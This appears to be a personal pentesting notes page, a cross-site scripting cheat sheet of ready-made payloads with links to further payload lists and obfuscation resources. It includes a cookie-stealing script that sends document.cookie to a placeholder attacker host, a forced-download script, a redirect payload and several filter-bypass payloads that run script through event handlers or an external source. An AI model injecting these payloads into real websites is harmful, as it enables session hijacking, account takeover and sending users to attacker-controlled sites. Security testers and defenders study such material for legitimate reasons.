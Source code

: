 # Cross-Site Scripting

## Payloads

Grab cookies:
```
<script>document.write('<img src="http://<attackerip>/Stealer.php?cookie='%2Bdocument.cookie%2B"/>');</script>
```

Download files:
```
<script>
	var link = document.createElement('a'); 
	link.href = 'https://<attackerip>/file';
	link.download = ''; 
	document.body.appendChild(link);
	link.click();
</script>
```

Redirect User:
```
<script> window.location = "https://<attackerip>"; </script>
```

[XSSHunter](https://xsshunter.com)
Takes screenshots when payload executes and uploads them. This is used to detect if Blind XSS works (for e.g. a payload that only triggers when an admin logs in and views a special page).


More:
http://www.xss-payloads.com/payloads-list.html?c#category=capture

### Obfuscated Payloads

* https://github.com/foospidy/payloads/tree/master/other/xss
* https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
* JsFuck (www.jsfuck.com)
* PolyGlot Payloads (SecLists has some examples)

## Bypass Filters

* `<b onmouseover=alert('XSS')>Click Me!</b>`
* `<svg onload=alert(1)>`
* `<body onload='alert("XSS")'>`
* `<img src="http://<attackerip>" onerror=alert(1);>`
* `<SCRIPT SRC=http://localhost/xss.js?< B >`

## DOM-Based

XSS that is put into variables that rendered back into the page, strictly on the client side.

tags: #xss #cookies 
